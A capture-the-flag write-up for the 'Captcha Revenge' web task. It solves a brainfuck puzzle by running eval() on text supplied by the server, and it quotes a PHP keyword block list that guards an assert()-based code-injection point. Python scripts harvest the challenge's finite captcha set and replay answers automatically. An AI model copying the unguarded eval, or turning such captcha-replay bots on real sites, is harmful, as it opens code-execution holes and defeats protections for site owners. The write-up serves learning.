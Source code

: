 # Captcha Revenge (Web)

In the task we get a website which displays some brainfuck code and an audio captcha challenge.
If we have 0 captchas solved, it actually tells us the solution for the first one.
The goal is to get a certain number of correct, consecutive solutions.
Brainfuck part is rather trivial, we have challenge like:

```
Can y0u print something out of this brain-fucking c0de?
++++++++++[ > ++++++ < -]>.[-]++++++++++[ > ++++++ < -]>+++.[-]++++++++++[ > +++++++++++ < -]>++.[-]++++++++++[ > ++++++++++ < -]>++++.[-]++++++++++[ > +++++++++++ < -]>++.[-]++++++++++[ > + < -]>.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++++++.[-]++++++++++[ > ++++++++++ < -]>+.[-]++++++++++[ > ++++++++++++ < -]>.[-]++++++++++[ > +++++++++++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > ++++++ < -]>+.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++++ < -]>+.[-]++++++++++[ > +++++ < -]>+++.[-]++++++++++[ > ++++ < -]>++++++++.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > +++++ < -]>++.[-]++++++++++[ > ++++ < -]>++.[-]++++++++++[ > +++++ < -]>+++++++.[-]++++++++++[ > +++++ < -]>+.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > +++++ < -]>.[-]++++++++++[ > +++++ < -]>+.[-]++++++++++[ > ++++ < -]>+++.[-]++++++++++[ > +++++ < -]>++++++.[-]++++++++++[ > +++++ < -]>+.[-]++++++++++[ > +++++ < -]>.[-]++++++++++[ > +++++ < -]>++.[-]++++++++++[ > ++++ < -]>+++++++++.[-]++++++++++[ > ++++ < -]>+++.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > ++++ < -]>+++++++++.[-]++++++++++[ > +++++ < -]>+++++++.[-]++++++++++[ > ++++ < -]>++.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > ++++ < -]>++++++++.[-]++++++++++[ > ++++ < -]>++++++++.[-]++++++++++[ > +++++ < -]>++.[-]++++++++++[ > +++++ < -]>+++++.[-]++++++++++[ > ++++ < -]>+++.[-]++++++++++[ > ++++ < -]>+++++++++.[-]++++++++++[ > +++++ < -]>+++.[-]++++++++++[ > +++++ < -]>+++++++.[-]++++++++++[ > +++++ < -]>+++++++.[-]++++++++++[ > +++++ < -]>+++++++.[-]++++++++++[ > + < -]>.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > ++++++++++ < -]>+.[-]++++++++++[ > +++++++++ < -]>+++++++++.[-]++++++++++[ > ++++++++++ < -]>++++.[-]++++++++++[ > +++++++++++ < -]>+.[-]++++++++++[ > +++ < -]>++.[-]++++++++++[ > ++++ < -]>.[-]++++++++++[ > ++++++++++ < -]>+.[-]++++++++++[ > ++++++++++++ < -]>.[-]++++++++++[ > +++++++++++ < -]>++.[-]++++++++++[ > ++++ < -]>+.[-]++++++++++[ > +++++ < -]>+++++++++.[-]++++++++++[ > + < -]>.[-]++++++++++[ > ++++++ < -]>+++.[-]++++++++++[ > ++++++ < -]>++.[-]
```

Which translates to:

```php
<?php
    $exp = 35074*93723+83241+77719*70047+15999
    echo (exp);
?>
```

There can be examples in other languages, but in all cases we have `exp = some_equation`, so we can simply eval this in python.
We grabbed some random python lib to evaluate brainfuck, and then just did:

```python
def evaluate_brainfuck(code):
    some_code = brainfuck.evaluate(code)
    bf = re.findall(r"exp = (.*)\n", some_code)[0]
    return str(eval(bf)) # let's hope they won't send anything nasty...
```

The hard part seems to be the captcha itself. We've done a fair share of those in the past, but this one was actually hard.
Stuff like Google Speech API would fail, and we couldn't simply cut this in parts and match individual numbers, because they were slight differences between captchas (pitch, speed etc).

However, we noticed that this is a `web` task and not a `ppc`!
So maybe we don't really have to solve any captchas at all?

Some dirbusting got us a hit on `.git`, which meant we could download the [source code of the challenge](source.php).

There was an interesting function:

```php
function is_clean($input){
	if (preg_match("/SESSION/i", $input)){//no seesion variable alteration
		bad_hacking_penalty();
		return false;
	}
	if (preg_match('/(base64_|eval|system|shell_|exec|php_)/i', $input)){//no coomand injection 
		bad_hacking_penalty();
		return false;
	}
	if (preg_match('/(file|echo|die|print)/i', $input)){//no file access
		bad_hacking_penalty();
		return false;
	}
	if (preg_match("/(or|\|)/", $input)){//Be brave use AND
		bad_hacking_penalty();
		return false;
	}
	if (preg_match('/(flag)/i', $input)){//don't take shortcuts
		bad_hacking_penalty();
		return false;
	}
	//clean input
	return true;
}
```

Which was used to filter our answer because it would go into `assert("'$real_ans' === '$user_ans'")` and `assert` works like `eval`, so otherwise we could actually execute code there.
It's quite obvious that intended solution was to bypass those checks and gain RCE, but we're too lazy for that.

We noticed in the code that captchas come from:

```php
function random_string(){
	$captcha_file = "xxxxxxxx";
	$random_index = rand(0, 999);
	$i = 1;
	foreach(file($captcha_file) as $line) {
   		if ($i == $random_index) return $line;
   		$i++;
	}
}
```

Which means there are only 1000 unique options to choose from.
Why not just download a lot of them and actually solve the game?
It's doable since they tell us the solution for a captcha if we have 0 solved.
We can simply do a GET to the page, download captcha, read the solution, and save the file for future:

```python
def download_captchas():
    url = "http://51.15.73.163:13335/"
    we_have = {}
    for file in os.listdir("download"):
        with codecs.open("download/" + file, "rb") as input_file:
            we_have[input_file.read()] = file
    while len(we_have) < 1000:
        r = requests.get(url)
        id = re.findall("source src=gen_cap/(.*) type=", r.text)[0]
        answer = re.findall("e.g Type '(.+?)'", r.text)[0]
        b = requests.get(url + "gen_cap/" + id).content
        if b not in we_have:
            print("new one!", len(we_have))
            we_have[b] = answer
            with codecs.open("download/" + answer, "wb") as output_file:
                output_file.write(b)
```

This code simply downloads and stores unique captchas.

In the meantime we can try to win the game with the captchas we already have.
We just go on the page, download captcha and check if we got this one.
If we do, then we send the answer.
Otherwise we start all over again:

```python
def solve():
    while True:
        try:
            captchas = {}
            for file in os.listdir("download"):
                with codecs.open("download/" + file, "rb") as input_file:
                    captchas[input_file.read()] = file
            url = "http://51.15.73.163:13335/"
            r = s.get(url)
            for i in range(501):
                brainfuck = re.findall("c0de\?<br>\n(.*?)</div>", r.text, re.DOTALL)[0]
                brainfuck = brainfuck.replace("&gt;", ">").replace("&lt;", "<")
                id = re.findall("source src=gen_cap/(.*) type=", r.text)[0]
                b = requests.get(url + "gen_cap/" + id).content
                brainfuck_answer = evaluate_brainfuck(brainfuck)
                captcha_solution = captchas[b]
                r = s.post(url, data={"captcha": captcha_solution, "answer": brainfuck_answer}, cookies={"PHPSEESSID": "p4rulezz"})
                print(r.text)
            break
        except KeyError:
            print("missing captcha :(")
            pass
```

This code will loop until we actually get the flag.
It took a while to download enough examples to win, but in the end we got: `CTF{too_many_captchas_but_PHP_made_it_a_cakewalk}`
But in our case PHP didn't really help at all.
